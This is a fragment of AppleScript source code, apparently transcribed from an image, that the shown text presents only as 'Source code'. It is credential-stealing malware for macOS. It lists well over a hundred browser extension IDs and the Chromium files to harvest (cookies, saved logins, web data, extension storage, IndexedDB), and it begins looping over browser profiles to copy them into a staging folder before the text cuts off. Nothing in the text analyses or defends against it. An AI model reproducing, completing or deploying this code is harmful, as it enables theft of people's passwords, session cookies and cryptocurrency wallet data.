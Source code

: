 ```
	set pluginList to {"keenhcnmdmjjhincpilijphpiohdppno", "hbbgbephgojikajhfbomhlmmollphcad", "cjmkndjhnagcfbpiemnkdpomccnjblmj", "dhgnlgphgchebgoemcjekedjjbifijid", "hifafgmccdpekplomjjkcfgodnhcellj", "kamfleanhcmjelnhaeljonilnmjpkcjc", "jnldfbidonfeldmalbflbmlebbipcnle", "fdcnegogpncmfejlfnffnofpngdiejii", "klnaejjgbibmhlephnhpmaofohgkpgkd", "pdadjkfkgcafgbceimcpbkalnfnepbnk", "kjjebdkfeagdoogagbhepmbimaphnfln", "ldinpeekobnhjjdofggfgjlcehhmanlj", "dkdedlpgdmmkkfjabffeganieamfklkm", "bcopgchhojmggmffilplmbdicgaihlkp", "kpfchfdkjhcoekhdldggegebfakaaiog", "idnnbdplmphpflfnlkomgpfbpcgelopg", "mlhakagmgkmonhdonhkpjeebfphligng", "bipdhagncpgaccgdbddmbpcabgjikfkn", "gcbjmdjijjpffkpbgdkaojpmaninaion", "nhnkbkgjikgcigadomkphalanndcapjk", "bhhhlbepdkbapadjdnnojkbgioiodbic", "hoighigmnhgkkdaenafgnefkcmipfjon", "klghhnkeealcohjjanjjdaeeggmfmlpl", "nkbihfbeogaeaoehlefnkodbefgpgknn", "fhbohimaelbohpjbbldcngcnapndodjp", "ebfidpplhabeedpnhjnobghokpiioolj", "emeeapjkbcbpbpgaagfchmcgglmebnen", "fldfpgipfncgndfolcbkdeeknbbbnhcc", "penjlddjkjgpnkllboccdgccekpkcbin", "fhilaheimglignddkjgofkcbgekhenbh", "hmeobnfnfcmdkdcmlblgagmfpfboieaf", "cihmoadaighcejopammfbmddcmdekcje", "lodccjjbdhfakaekdiahmedfbieldgik", "omaabbefbmiijedngplfjmnooppbclkk", "cjelfplplebdjjenllpjcblmjkfcffne", "jnlgamecbpmbajjfhmmmlhejkemejdma", "fpkhgmpbidmiogeglndfbkegfdlnajnf", "bifidjkcdpgfnlbcjpdkdcnbiooooblg", "amkmjjmmflddogmhpjloimipbofnfjih", "flpiciilemghbmfalicajoolhkkenfel", "hcflpincpppdclinealmandijcmnkbgn", "aeachknmefphepccionboohckonoeemg", "nlobpakggmbcgdbpjpnagmdbdhdhgphk", "momakdpclmaphlamgjcndbgfckjfpemp", "mnfifefkajgofkcjkemidiaecocnkjeh", "fnnegphlobjdpkhecapkijjdkgcjhkib", "ehjiblpccbknkgimiflboggcffmpphhp", "ilhaljfiglknggcoegeknjghdgampffk", "pgiaagfkgcbnmiiolekcfmljdagdhlcm", "fnjhmkhhmkbjkkabndcnnogagogbneec", "bfnaelmomeimhlpmgjnjophhpkkoljpa", "imlcamfeniaidioeflifonfjeeppblda", "mdjmfdffdcmnoblignmgpommbefadffd", "ooiepdgjjnhcmlaobfinbomgebfgablh", "pcndjhkinnkaohffealmlmhaepkpmgkb", "ppdadbejkmjnefldpcdjhnkpbjkikoip", "cgeeodpfagjceefieflmdfphplkenlfk", "dlcobpjiigpikoobohmabehhmhfoodbb", "jiidiaalihmmhddjgbnbgdfflelocpak", "bocpokimicclpaiekenaeelehdjllofo", "pocmplpaccanhmnllbbkpgfliimjljgo", "cphhlgmgameodnhkjdmkpanlelnlohao", "mcohilncbfahbmgdjkbpemcciiolgcge", "bopcbmipnjdcdfflfgjdgdjejmgpoaab", "khpkpbbcccdmmclmpigdgddabeilkdpd", "ejjladinnckdgjemekebdpeokbikhfci", "phkbamefinggmakgklpkljjmgibohnba", "epapihdplajcdnnkdeiahlgigofloibg", "hpclkefagolihohboafpheddmmgdffjm", "cjookpbkjnpkmknedggeecikaponcalb", "cpmkedoipcpimgecpmgpldfpohjplkpp", "modjfdjcodmehnpccdjngmdfajggaoeh", "ibnejdfjmmkpcnlpebklmnkoeoihofec", "afbcbjpbpfadlkmhmclhkeeodmamcflc", "kncchdigobghenbbaddojjnnaogfppfj", "efbglgofoippbgcjepnhiblaibcnclgk", "mcbigmjiafegjnnogedioegffbooigli", "fccgmnglbhajioalokbcidhcaikhlcpm", "hnhobjmcibchnmglfbldbfabcgaknlkj", "apnehcjmnengpnmccpaibjmhhoadaico", "enabgbdfcbaehmbigakijjabdpdnimlg", "mgffkfbidihjpoaomajlbgchddlicgpn", "fopmedgnkfpebgllppeddmmochcookhc", "jojhfeoedkpkglbfimdfabpdfjaoolaf", "ammjlinfekkoockogfhdkgcohjlbhmff", "abkahkcbhngaebpcgfmhkoioedceoigp", "dcbjpgbkjoomeenajdabiicabjljlnfp", "gkeelndblnomfmjnophbhfhcjbcnemka", "pnndplcbkakcplkjnolgbkdgjikjednm", "copjnifcecdedocejpaapepagaodgpbh", "hgbeiipamcgbdjhfflifkgehomnmglgk", "mkchoaaiifodcflmbaphdgeidocajadp", "ellkdbaphhldpeajbepobaecooaoafpg", "mdnaglckomeedfbogeajfajofmfgpoae", "nknhiehlklippafakaeklbeglecifhad", "ckklhkaabbmdjkahiaaplikpdddkenic", "fmblappgoiilbgafhjklehhfifbdocee", "nphplpgoakhhjchkkhmiggakijnkhfnd", "cnmamaachppnkjgnildpdmkaakejnhae", "fijngjgcjhjmmpcmkeiomlglpeiijkld", "niiaamnmgebpeejeemoifgdndgeaekhe", "odpnjmimokcmjgojhnhfcnalnegdjmdn", "lbjapbcmmceacocpimbpbidpgmlmoaao", "hnfanknocfeofbddgcijnmhnfnkdnaad", "hpglfhgfnhbgpjdenjgmdgoeiappafln", "egjidjbpglichdcondbcbdnbeeppgdph", "ibljocddagjghmlpgihahamcghfggcjc", "gkodhkbmiflnmkipcmlhhgadebbeijhh", "dbgnhckhnppddckangcjbkjnlddbjkna", "mfhbebgoclkghebffdldpobeajmbecfk", "nlbmnnijcnlegkjjpcfjclmcfggfefdm", "nlgbhdfgdhgbiamfdfmbikcdghidoadd", "acmacodkjbdgmoleebolmdjonilkdbch", "agoakfejjabomempkjlepdflaleeobhb", "dgiehkgfknklegdhekgeabnhgfjhbajd", "onhogfjeacnfoofkfgppdlbmlmnplgbn", "kkpehldckknjffeakihjajcjccmcjflh", "jaooiolkmfcmloonphpiiogkfckgciom", "ojggmchlghnjlapmfbnjholfjkiidbch", "pmmnimefaichbcnbndcfpaagbepnjaig", "oiohdnannmknmdlddkdejbmplhbdcbee", "aiifbnbfobpmeekipheeijimdpnlpgpp", "aholpfdialjgjfhomihkjbmgjidlcdno", "anokgmphncpekkhclmingpimjmcooifb", "kkpllkodjeloidieedojogacfhpaihoh", "iokeahhehimjnekafflcihljlcjccdbe", "ifckdpamphokdglkkdomedpdegcjhjdp", "loinekcabhlmhjjbocijdoimmejangoa", "fcfcfllfndlomdhbehjjcoimbgofdncg", "ifclboecfhkjbpmhgehodcjpciihhmif", "dmkamcknogkgcdfhhbddcghachkejeap", "ookjlbkiijinhpmnjffcofjonbfbgaoc", "oafedfoadhdjjcipmcbecikgokpaphjk", "mapbhaebnddapnmifbbkgeedkeplgjmf", "cmndjbecilbocjfkibfbifhngkdmjgog", "kpfopkelmapcoipemfendmdcghnegimn", "lgmpcpglpngdoalbgeoldeajfclnhafa", "ppbibelpcjmhbdihakflkdcoccbgbkpo", "ffnbelfdoeiohenkjibnmadjiehjhajb", "opcgpfmipidbgpenhmajoajpbobppdil", "lakggbcodlaclcbbbepmkpdhbcomcgkd", "kgdijkcfiglijhaglibaidbipiejjfdp", "hdkobeeifhdplocklknbnejdelgagbao", "lnnnmfcpbkafcpgdilckhmhbkkbpkmid", "nbdhibgjnjpnkajaghbffjbkcgljfgdi", "kmhcihpebfmpgmihbkipmjlmmioameka", "kmphdnilpmdejikjdnlbcnmnabepfgkh", "nngceckbapebfimnlniiiahkandclblb"}
	set chromiumFiles to {"/Network/Cookies", "/Cookies", "/Web Data", "/Login Data", "/Local Extension Settings/", "/IndexedDB/"}
	repeat with chromium in chromium_map
		set savePath to writemind & "Chromium/" & item 1 of chromium & "_"
		try
			set fileList to list folder item 2 of chromium without invisibles
			repeat with currentItem in fileList
				if ((currentItem as string) is equal to "Default") or ((currentItem as string) contains "Profile") then
```
